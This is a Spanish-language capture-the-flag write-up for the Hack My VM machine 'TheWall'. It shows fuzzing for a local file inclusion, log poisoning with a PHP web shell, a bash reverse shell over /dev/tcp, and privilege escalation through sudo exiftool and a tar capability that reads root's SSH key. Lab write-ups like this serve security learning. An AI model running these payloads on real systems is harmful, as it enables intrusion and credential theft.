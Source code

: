 ```yaml
---
layout: post
title: TheWall
date: 2022-11-27
categories: ["HMV"]
thumbnail: "assets/images/TheWall.png"
---
```


# TheWall [ Hack My VM ]

### Reconocimiento

**Descubrimiento de puertos y reconocimiento básico**
- `nmap -sS --min-rate 5000 192.168.1.114 -oG allPorts`
- `nmap -sCV -p22,80 192.168.1.114 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell

Si miramos la página veremos que sólo pone un `Hello World!` en grande, por lo que poco podemos hacer, pero bueno, podemos seguir investigamos. Si vamos la ruta `/index.php` veremos el mismo mensaje, por lo que ya sabemos que está utilizando `PHP`.

Con esto aprendido podemos hacer `fuzzing` por archivos `PHP`, aunque si nos fijamos veremos que la página tiene un `WAF` (`Web Application Firewall`), por lo que si vamos muy rápido nos dará el mismo mensaje siempre (`Forbidden`). Para el siguiente paso utilizaré `GoBuster`, una herramienta creada en `GoLang` para hacer `fuzzing`.

- `gobuster dir -u "http://192.168.1.114" -w directory-list-2.3-medium.txt -x php - -delay 1s -t 1 --b 403,404`

```
/index.php (Status: 200 ) [Size: 25 ]
/includes.php (Status: 200 ) [Size: 2 ]
```

Tras esperar un buen rato vemos dos archivos, el respectivo `index.php` e `includes.php`, si abrimos dicho archivo veremos una página en blanco, podemos intuir (por el nombre) que dispondrá de algún parámetro que apuntará a un archivo local, por lo que podemos tratar de `fuzzear` ese parámetro. Para ello utilizaré `WFuzz`:

- `wfuzz -u "http://192.168.1.114/includes.php?FUZZ=/etc/passwd" -w directory-list-2.3-medium.txt --hc=404 --hh=2 -t 200`

```
000217299: 200 28 L 41 W 1460 Ch "display_page"
```

Tras otro rato esperando vemos el parámetro `display_page`, así que si nos vamos a la web podemos ver el archivo que queramos de la máquina. Acabamos de encontrar un `LFI`!

Con esto encontrado podemos hacer `Log Poisoning`, para eso me dirigiré a `/var/log/apache2/access.log`, vemos que existe, por lo que podemos  continuar. Con `NC` me conectaré al puerto `80` y mandaré una petición `GET` con un pequeño `script` en `PHP`.

- `nc 192.168.1.114 80`

```
GET <?php system($_GET['cmd']); ?>
```

Este pequeño `script` en `PHP` cogerá el `input` del parámetro `cmd`, lo ejecutará y lo mostrará en pantalla. Por lo que ya podemos ejecutar comandos en la máquina.

Para conseguir una Shell me copié de [`IronHackers`](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/) una Reverse Shell en `Bash` y la puse (intercambiando los `&` por `%26` para no obtener problemas) en el parámetro `cmd`. Antes de todo esto me puse en escucha con `NC` por el puerto `4444`.

- `nc -nlvp 4444`

Ahora sí, estamos preparados para lanzar la Reverse Shell:

```
http://192.168.1.114/includes.php?display_page=bash -c 'bash -i >%26 /dev/tcp/192.168.1.114/4444 0>%261'
```
Bien! Hemos recibido una Shell como `www-data`!

### Subida de privilegios #1

Ahora que ya estamos en la máquina víctima tenemos que tratar de ser `root`, pero antes de eso nos tenemos que convertir en `John`. Comencé por hacer `sudo -l` para listar todo lo que podía hacer en la máquina.

```
Matching Defaults entries for www-data on TheWall:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on TheWall:
    (john : john) NOPASSWD: /usr/bin/exiftool
```
Vemos que puedo ejecutar como `John` una herramienta llamada `ExifTool`. Si nos vamos a [`GTFOBins`](https://gtfobins.github.io/gtfobins/exiftool/#sudo) vemos que podemos escribir un archivo con dicha herramienta, por lo que decidí generarme un par de llaves `SSH` en mi máquina de atacante con `ssh-keygen` y copiar la clave pública (`id_rsa.pub`) en el directorio `/tmp/` de la máquina víctima.

Con esto hecho seguí las instrucciones de [`GTFObins`](https://gtfobins.github.io/gtfobins/exiftool/#sudo), quedándome así la instrucción:

- `sudo -u john /usr/bin/exiftool -filename=/home/john/.ssh/authorized_keys /tmp/id_rsa.pub`

Esto ha hecho que copiemos nuestra `id_rsa` pública en un archivo llamado `authorized_keys`, el
cual al estar ahí nuestra llave podemos conectarnos como `John` sin proporcionar contraseña.

### Subida de privilegios #2

Una vez que estemos como `John` en la máquina ya podemos seguir nuestra misión, conseguir ser `root`, para ello (y tras varios minutos buscando) con el comando `id` listé los grupos a los que pertenecía, pertenecía al grupo `1000` , por lo que me puse a buscar ficheros que pertenezcan a dicho grupo.

- `find / -group 1000 2>/dev/null`

```
[ ... ]
/usr/sbin/tar
[ ... ]
```

Vemos un fichero llamado `tar`, vamos a ver qué capacidades tiene con `/sbin/getcap -r 2>/dev/null`:

```
[ ... ]
/usr/sbin/tar cap_dac_read_search=ep
[ ... ]
```

Como vemos tiene la capacidad de leer archivos. Me encontré un artículo de [`TBHaxor`](https://tbhaxor.com/exploiting-linux-capabilities-part-2/) que explica muy bien cómo poder explotar dicha capacidad, por lo seguí sus pasos, aunque cambiándolo un poco.

Si nos vamos a la raíz del sistema vemos dos archivos, un `id_rsa.pub` el cual
pertenece a `root` y otro archivo, `id_rsa` (el privado) que no podemos leer, por lo que podemos intuir que es de `root`. Vámonos al directorio `/tmp/`.

Bien, es la hora de explotar la capacidad de `TAR`, para ello hacemos lo siguiente:

- `/sbin/tar -czf root.id_rsa /id_rsa`

Como vemos se nos creó un archivo llamado `root.id_rsa` (o como le hayáis puesto) que si lo leemos tendrá la clave privada de `root`.

Enhorabuena! Hemos obtenido `root` en la máquina víctima de forma sencilla!